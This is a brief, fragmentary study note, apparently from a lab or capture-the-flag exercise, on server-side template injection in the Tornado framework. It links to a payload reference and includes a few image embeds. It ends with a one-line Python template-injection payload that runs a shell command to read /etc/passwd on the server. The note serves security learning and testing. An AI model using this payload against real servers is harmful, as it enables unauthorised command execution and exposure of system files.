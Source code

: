 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#tornado

![[Pasted image 20250118203317.png]]

![[Pasted image 20250118204240.png]]


![[Pasted image 20250118203952.png]]

```python
__import__('os').popen('cat+/etc/passwd').read()
```

